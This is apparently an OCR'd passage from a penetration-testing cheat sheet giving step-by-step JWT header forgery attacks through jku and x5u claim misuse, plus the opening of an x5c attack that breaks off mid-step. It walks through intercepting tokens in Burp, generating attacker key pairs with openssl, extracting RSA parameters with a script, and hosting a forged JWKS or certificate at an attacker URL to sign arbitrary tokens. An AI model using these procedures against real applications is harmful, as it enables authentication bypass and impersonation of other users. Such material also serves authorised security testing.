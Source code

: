 7. ****Forged Header Parameter****

```python
JSON Set URL (jku)
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents jku attribute in Header section
4. Generate you Public and Private Key pair using below commands:
		"openssl genrsa -out keypair.pem 2048"
		"openssl rsa -in keypair.pem -pubout -out publickey.crt"
		"openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key"
	8 it will generate Public Key - "publickey.crt" & Private Key - "pkcs8.key"
5. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
6. Host the generated certificate locally and modify the jku header parameter accordingly.
7. Retrieve the jwks.json file from the URL present in the jku header claim
		"wget http://example.com:8000/jwks.json"
8. Make a Python script "getPublicParams.py":
		from Crypto.PublicKey import RSA

		fp = open("publickey.crt", "r")
		key = RSA.importKey(fp.read())
		fp.close()

		print "n:", hex(key.n)
		print "e:", hex(key.e)
9. Run python script "python getPublicParams.py"
10. Update the values of n and e in local jkws.json
11. Hosting the JWK Set JSON file using repl.it or any server
12. Manipulate the payload section and copy the generated jwt token from jwt.io
13. Done, change the JWT token in our request and Forward!

x5u Claim Misuse:
Note: The algorithm used for signing the token is “RS256”.
The token is using x5u header parameter which contains the location of the X.509 certificate to be used for token verification.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents x5u attribute in Header section.
4. Creating a self-signed certificate
			"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
5. Extracting the public key from the generated certificate:
			"openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem"
6. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
7. Set "x5u: http://192.87.15.2:8080/attacker.crt" you can use repl.it to host
8. Done Use forged jwt token in request.

x5c Claim Misuse:
Note:The algorithm used for signing the token is “RS256”.
The token is using x5c header parameter which contains the X.509 certificate to be used for token verification.
The token has various fields: n, e, x5c, x5t, kid. Also, notice that kid value is equal to x5t value.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents x5c attribute in Header section.
* https://jwt.io automatically extracts the X.509 certificate and places it in the “Verify Signature” sub-section in “Decoded” section.

4. Create a self-signed certificate:
```